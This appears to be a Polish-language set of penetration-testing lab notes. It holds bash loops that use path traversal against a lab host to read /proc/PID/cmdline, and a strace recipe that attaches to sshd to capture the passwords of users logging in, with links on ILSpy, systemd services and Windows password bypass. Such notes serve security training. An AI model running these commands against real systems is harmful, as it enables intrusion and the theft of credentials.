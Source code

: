 ```bash
for i in $(seq 900 1000); do response=$(curl -s "10.10.11.201:8000/?page=../../../../proc/$i/cmdline");echo "$response  PID => $i";done

for i in $(seq 900 1000); do curl 10.10.11.201:8000/?page=../../../../proc/$i/cmdline -o -; echo "  PID => $i"; done

for i in $(seq 900 1000); do
  response=$(curl -s "10.10.11.201:8000/?page=../../../../proc/$i/cmdline")
  if ! echo "$response" | grep -q "File not found"; then
    echo "$response  PID => $i"
  fi
done
```

# Instalacja debugera .NET .dll w kali
najlepiej zrobić to w maszynie wirtualnej żeby sobie systemu nie zaśmiecać
INSTALACJA ILSPY 
https://www.matbra.com/2020/06/18/install-avalonia-ilspy.html

# Przechwycenie hasła ssh
https://eapolsniper.github.io/2020/08/22/SSH-Password-Theft/
https://medium.com/@deboj88/spaying-on-ssh-password-using-strace-7465ede0a5cc
będąc na maszynie do której ktoś będzie się łączył
```bash
# trace system calls and signals
strace # śledzi zapytania systemowe do danego procesu

ps # znalezienie wszytskich procesów związanych z sshd
strace -p <PID SSHD> -f -o outfile.txt
# -p proces 
# -f --follow-forks - Trace child processes as they are created by currently traced processes as a result of the fork(2), vfork(2) and clone(2) system calls.  Note that -p PID -f will attach all threads of process PID if it is multi-threaded, not only thread with thread_id = PID.

cat out.txt| grep "<... read resumed>" # szukać w tym

```
# Creating a Linux service with systemd

https://medium.com/@benmorel/creating-a-linux-service-with-systemd-611b5c8b91d6

# How to Bypass Windows Passwords using Kali Linux
https://systemweakness.com/how-to-bypass-windows-passwords-using-kali-linux-d76be51e8481